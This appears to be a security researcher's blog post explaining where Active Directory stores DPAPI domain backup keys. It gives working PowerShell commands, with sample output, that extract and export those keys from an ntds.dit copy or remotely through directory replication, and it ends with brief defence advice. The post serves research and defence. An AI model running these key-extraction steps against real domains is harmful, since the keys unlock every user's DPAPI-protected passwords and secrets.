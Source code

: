 ```yaml
---
ref: dpapi-backup-keys
title: 'Retrieving DPAPI Backup Keys from&nbsp;Active Directory'
date: 2015-10-26T22:51:00+00:00
layout: post
lang: en
image: /assets/images/backupkeys_storage.png
permalink: /en/retrieving-dpapi-backup-keys-from-active-directory/
tags:
    - 'Active Directory'
    - DPAPI
    - PowerShell
    - Security
---
```


The Data Protection API (DPAPI) is used by several components of Windows to securely store passwords, encryption keys and other sensitive data. When DPAPI is used in an Active Directory domain environment, a copy of user’s master key is encrypted with a so-called DPAPI Domain Backup Key that is known to all domain controllers. Windows Server 2000 DCs use a symmetric key and newer systems use a public/private key pair. If the user password is reset and the original master key is rendered inaccessible to the user, the user’s access to the master key is automatically restored using the backup key.

<!--more-->

## The Mimikatz Method

Benjamin Delpy has already found a way to extract these backup keys from the LSASS of domain controllers and it even works remotely:

![Mimikatz DPAPI Backup Keys](../../assets/images/mimikatz_backupkeys.png)

## Key Storage

I have taken Benjamin’s research one step further and I can now extract these keys directly from the Active Directory database, where they are physically stored:

![Backup Key Storage](../../assets/images/backupkeys_storage.png)

The keys are stored in the **currentValue** attribute of objects whose names begin with **BCKUPKEY** and are of class **secret**. The **BCKUPKEY_PREFERRED Secret** and **BCKUPKEY_P Secret** objects actually only contain GUIDs of objects that hold the current modern and legacy keys, respectively. Furthermore, the currentValue attribute is encrypted using BootKey (aka SysKey) and is never sent through LDAP.

## The Database Dump Method

The **Get-BootKey**, **Get-ADDBBackupKey** and **Save-DPAPIBlob** cmdlets from my [DSInternals PowerShell Module](/en/downloads/) can be used to retrieve the DPAPI Domain Backup Keys from ntds.dit files:

```powershell
# We need to get the BootKey from the SYSTEM registry hive first:
Get-BootKey -SystemHiveFilePath 'C:\IFM\registry\SYSTEM'

<#
Output:

41e34661faa0d182182f6ddf0f0ca0d1

#>

# Now we can decrypt the DPAPI backup keys from the database:
Get-ADDBBackupKey -DBPath 'C:\IFM\Active Directory\ntds.dit' `
                  -BootKey 41e34661faa0d182182f6ddf0f0ca0d1 |
    Format-List

<#
Output:

Type : LegacyKey
DistinguishedName : CN=BCKUPKEY_7882b20e-96ef-4ce5-a2b9-3efdccbbce28 Secret,CN=System,DC=Adatum,DC=com
RawKeyData : {77, 138, 250, 6...}
KeyId : 7882b20e-96ef-4ce5-a2b9-3efdccbbce28

Type : PreferredLegacyKeyPointer
DistinguishedName : CN=BCKUPKEY_P Secret,CN=System,DC=Adatum,DC=com
RawKeyData : {14, 178, 130, 120...}
KeyId : 7882b20e-96ef-4ce5-a2b9-3efdccbbce28

Type : RSAKey
DistinguishedName : CN=BCKUPKEY_b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d Secret,CN=System,DC=Adatum,DC=com
RawKeyData : {48, 130, 9, 186...}
KeyId : b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d

Type : PreferredRSAKeyPointer
DistinguishedName : CN=BCKUPKEY_PREFERRED Secret,CN=System,DC=Adatum,DC=com
RawKeyData : {62, 106, 197, 177...}
KeyId : b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d

#>

# In most cases, we just want to export these keys to the file system:
Get-ADDBBackupKey -DBPath 'C:\IFM\Active Directory\ntds.dit' `
                  -BootKey 41e34661faa0d182182f6ddf0f0ca0d1 |
    Save-DPAPIBlob -DirectoryPath .\Keys

# New files should have been created in the Keys directory:

(dir .\Keys).Name

<#
Output:

ntds_capi_b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d.pfx
ntds_legacy_7882b20e-96ef-4ce5-a2b9-3efdccbbce28.key

#>
```

Note that mimikatz would name these files similarly.

## The DRSR Method

The same result can be achieved by communicating with the Directory Replication Service using the **Get-ADReplBackupKey** cmdlet:

```powershellGet-ADReplBackupKey -Domain 'Adatum.com' -Server LON-DC1 |
    Save-DPAPIBlob -DirectoryPath .\Keys
```

## Defense

I am already starting to repeat myself:

- Restrict access to domain controller backups.
- Be cautious when delegating the *Replicating Directory Changes All* right.